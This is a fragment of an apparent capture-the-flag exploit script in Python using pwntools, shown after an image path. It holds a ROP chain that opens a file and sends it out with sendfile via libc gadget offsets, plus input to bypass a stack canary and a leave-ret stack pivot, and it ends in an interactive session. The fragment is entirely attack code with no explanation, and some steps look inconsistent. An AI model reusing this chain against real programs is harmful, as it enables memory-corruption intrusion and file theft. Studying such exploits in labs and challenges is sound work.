 ```py
    send_address(buffer_leak)
    send_address(pop_rsi)
    send_address(0x0)
    send_address(pop_rax)
    send_address(0x2)
    send_address(syscall)

    # sendfile
    send_address(libc.address + 0x000000000003d1ee)
    send_address(0x200)
    send_address(pop_rsi)
    send_address(0x3)
    send_address(pop_rdi)
    send_address(1)
    send_address(libc.address + 0x0000000000119170)

    send_address(libc.sym.read)

    send_address(libc.sym.write)
    send_address(pop_rdi)

    # Bypass the canary
    io.sendline(b".")
    io.sendline("{}".format(pack_input(buffer_leak + 8)))


def first_stage():
    overflow(0);
    io.sendline("{}".format(pack_input(leave_ret)))

first_stage()
io.interactive()
```
